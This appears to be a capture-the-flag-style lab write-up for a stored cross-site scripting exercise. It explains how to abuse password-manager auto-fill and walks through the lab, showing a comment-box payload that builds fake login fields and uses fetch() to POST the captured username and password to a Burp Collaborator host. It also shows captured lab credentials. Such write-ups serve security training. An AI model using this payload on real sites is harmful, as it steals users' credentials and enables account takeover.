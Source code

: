 - These days, many users have password managers that auto-fill their passwords. You can take advantage of this by creating a password input, reading out the auto-filled password, and sending it to your own domain.
- This technique avoids most of the problems associated with stealing cookies, and can even gain access to every other account where the victim has reused the same password.
- The primary disadvantage of this technique is that it only works on users who have a password manager that performs password auto-fill. (Of course, if a user doesn't have a password saved you can still attempt to obtain their password through an on-site phishing attack, but it's not quite the same.)

## Steps to solve lab
### Title - Exploiting cross-site scripting to capture passwords

**Desc** - This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

**Our end goal** - To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

1. Analyze the page and as per the lab description there is a vulnerability in the blog comments function.
![[XSS93.png]]

![[XSS94.png]]
As you can see above, our tag is not sanitized it means we can execute javascript.

2. Now, copy the below payload and paste it into the "comment" box.
**Payload** - 
```jsx
<input name=username id=username> 
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ 
method:'POST', 
mode: 'no-cors', 
body:username.value+':'+this.value 
});">
```

**Explaination to above code** - 

1. `fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {...});`: 
	- This line initiates an HTTP request to the URL `'https://BURP-COLLABORATOR-SUBDOMAIN'`. Replace `'https://BURP-COLLABORATOR-SUBDOMAIN'` with the actual URL you want to target. This URL is where the data will be sent.

2. `method: 'POST'`:
	- This specifies the HTTP request method as POST. In the context of web requests, a POST request is often used to send data to a server.

3. `mode: 'no-cors'`:
	- This sets the request mode to 'no-cors'. The 'no-cors' mode is used for requests where you do not need to access the response from the server, and it's mainly used to avoid certain security restrictions, such as the same-origin policy.
	- However, it also means that you won't be able to access the response from the server, including any error messages.

![[XSS101.png]]

![[XSS102.png]]
As you can see above, we got the password and username of the victim. It means, it is that user that viewed our comment on the blog and we successfully steal the username and password of that user.

**In burp collaborator** - 
![[XSS103.png]]
username - administrator
password - 95buhjbcwmln88g841ud

3. Now, login with these credentials.
![[XSS104.png]]

For better understanding visit --> [[Exploiting Cross-site Scripting to Capture Passwords (No Collaborator).mp4]]

